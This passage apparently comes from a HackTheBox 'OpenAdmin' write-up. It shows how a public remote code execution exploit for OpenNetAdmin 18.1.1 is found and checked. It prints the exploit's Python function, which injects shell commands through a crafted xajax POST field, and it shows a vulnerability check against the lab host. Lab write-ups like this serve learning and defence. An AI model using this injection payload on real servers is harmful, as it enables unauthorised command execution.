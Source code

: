 

![](3.png)


Searchsploit found a few entries for opennetadmin, including an RCE for version 18.1.1 which happens to be installed here. I searched for POCs on github and found this [script](https://github.com/amriunix/ona-rce). Looking into the script, it looks like the main exploit is to send a specially crafted POST request to /ona/.

```python
def exploit(target, cmd):
    payload = {
        'xajax':'window_submit',
        'xajaxr':'1574117726710',
        'xajaxargs[]':['tooltips','ip=>;echo \"BEGIN\";{} 2>&1;echo \"END\"'.format(cmd),'ping']
    }
    try:
        req = requests.post(url = target, data = payload, verify = False)
    except:
        print("[-] Warning: Error while connecting o the remote target")
        exit(1)
    data = req.text
    result = data[data.find('BEGIN')+6:data.find('END')-1]
    return(result)
```


Verifying the target is vulnerable.

```sh
kali@kali-[~/boxes/htb/OpenAdmin]$python3 rce.py check http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!
```
